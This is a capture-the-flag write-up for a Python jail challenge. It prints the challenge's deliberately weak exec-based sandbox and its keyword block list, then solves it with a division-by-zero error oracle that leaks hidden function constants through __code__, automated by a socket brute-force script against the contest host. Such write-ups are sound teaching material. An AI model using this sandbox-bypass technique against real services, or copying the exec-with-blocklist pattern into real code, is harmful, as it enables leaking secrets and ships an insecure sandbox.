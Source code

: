 The oracle's apprentice
==========
The pyjail isn't designed to pop a shell, or read a file. Just recover the redacted part of the source code.

Host : misc.heroctf.fr

Port : 6000

The backend script is:
```python
#! /usr/bin/python3

def flag():
    # REDACTED
    # THIS FUNCTION DOES NOT PRINT OR RETURN ANYTHING
    e = 5
    w = 'd'
    pass


def jail():
    user_input = input(">> ")

    filtered = ["import", "os", "sys", "eval", "exec", "__builtins__", "__globals__", "__getattribute__", "__dict__", "__base__", "__class__", "__subclasses__", "dir", "help", "exit", "open", "read"]

    valid_input = True
    for f in filtered:
        if f in user_input:
            print("tssss, what are u doing")
            valid_input = False
            break

    if valid_input:
        try:
            exec(user_input, {"__builtins__": {}}, {'flag':flag})
        except:
            print("You thought I would print errors for u ?")

if __name__ == "__main__":
    try:
        while True:
            jail()
    except KeyboardInterrupt:
        print("Bye")
```

Solution
=========

We meet two problems here:
1. The input is filtered to disallow execution almost all builtin functions. This problem is solved using the oracle based on math operations. For example, if we consider string ```s = "Sample String"```, our oracle is ```1/(s[i]==X)```. If symbol s[i] is X the backend returns nothing otherwise it throw an exception message. Thus, we can recover a string symbol by symbol.

2. It seeps, the flag function doesn't return. However, we know, that the function code contains the flag. We can extract it using "__code__" property to access the flag and the oracle from previous point.

Further, we program a socket to automate the process of flag extraction. The complete code is:
```python
import socket
import time
import string

HOST="misc.heroctf.fr"
PORT = 6000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST,PORT))

for j in range(0,20):
    for k in range(0,5):
        for i in string.printable:
            s.sendall(f"23/(flag.__code__.co_consts[{j}][{k}]=='{i}')\n".encode())
            time.sleep(0.1)
            data = s.recv(1024)
            if(not b'You thought' in data):
                print(str(i), end="")
                break
```

